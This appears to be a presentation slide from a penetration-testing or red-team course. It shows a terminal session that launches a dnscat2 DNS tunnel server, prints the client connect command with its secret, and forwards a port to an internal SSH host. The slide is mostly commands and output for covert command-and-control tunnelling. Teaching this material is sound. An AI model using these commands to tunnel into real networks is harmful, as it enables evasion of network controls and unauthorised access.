

Use DNSCAT2 to tunnel traffic (server)
root@projectpull.org ~ $ ruby ./dnscat2.rb --dns “host=192.168.0.4”
New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.168.0.4:53
To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=b042cb96c2717245f26c0b091b33e9af

command (X1) 2> ping
Ping!
command (X1) 2> Pong!
listen 2222 10.69.69.14:22
Listening on 0.0.0.0:2222, sending connections to 10.69.69.14:22
command (X1) 2> Connection from 127.0.0.1:38074; forwarding to 10.69.69.14:22...
[Tunnel 0] connection successful!